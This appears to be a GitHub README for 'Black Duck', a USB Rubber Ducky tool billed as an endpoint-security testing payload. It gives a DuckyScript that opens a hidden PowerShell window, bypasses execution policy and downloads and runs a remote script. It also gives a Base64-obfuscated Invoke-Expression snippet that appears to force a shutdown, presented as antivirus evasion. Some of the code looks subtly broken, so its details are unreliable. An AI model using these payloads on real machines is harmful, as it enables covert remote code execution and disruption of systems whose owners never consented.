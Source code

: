 ![image](https://github.com/user-attachments/assets/a844f4b3-a0fa-490a-8eef-f98b724939f2)


Black Duck is an advanced USB Rubber Ducky-based payload designed to simulate undetected threat scenarios on Windows systems, enabling the assessment of endpoint security defenses. 
Using PowerShell obfuscation techniques, Black Duck effectively bypasses antivirus detection with an 85% success rate. 
This project integrates Gen AI 4.0 to automate vulnerability reporting, streamlining incident response processes and enhancing endpoint security resilience.


Key Features
Antivirus Evasion: Employs advanced PowerShell obfuscation tactics to bypass antivirus systems, exposing critical endpoint security gaps.
Automated Vulnerability Reporting: Integrates Gen AI 4.0 for real-time vulnerability analysis, reducing manual analysis time by 75%.
Enhanced Response Time: Automates severity rating and remediation suggestions, leading to a 70% improvement in response times and risk mitigation.
User-Friendly Interaction: Supports streamlined payload execution for controlled security testing environments.

Getting Started
To begin with Black Duck:

Install DuckyScript on your USB Rubber Ducky: Ensure your USB Rubber Ducky device is configured to execute DuckyScript payloads.
Prepare a Controlled Testing Environment: Use a virtual machine or isolated network setup to safely analyze payload behavior.
Download and Configure the Payload: Customize the payload to point to a local or secure testing server.
Installation
Clone the Repository:

bash
Copy code
git clone https://github.com/kuranikaran/Black-Duck.git
Prepare USB Rubber Ducky:

Flash the payload onto your USB Rubber Ducky device.
Make sure you have the necessary driver and encoding software installed.
Test Environment Setup:

Configure a Windows virtual machine for isolated testing.
Disable auto-update features on antivirus software for controlled evasion testing.
Usage
DuckyScript for Black Duck Payload
Use this DuckyScript to execute the obfuscated PowerShell command:

DELAY 500
REM Open Run Prompt
GUI r
DELAY 300
REM Open PowerShell in hidden window
STRING powershell -w hidden -nop -ep bypass -c "IEX ((New-Object System.Net.WebClient).DownloadString('https://github.com/kuranikaran/blackduck/blob/main/DuckyPayload.ps1'))"
ENTER

Remote Payload (payload.ps1)
Place the obfuscated PowerShell payload on your testing server or in a secure location.

powershell
$a=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('cwBoAHUAdABkAG8AdwBuACAALwBzACAALwBmACAALwB0ACAAMAA=='))
Invoke-Expression $a

Obfuscation Techniques
Black Duck employs:

Base64 encoding
String manipulation for command hiding
In-memory execution to evade detection
Legal Disclaimer
This tool is intended solely for research and educational purposes. Unauthorized use on systems without permission is illegal and punishable by law. Use Black Duck responsibly and only in controlled, authorized environments.


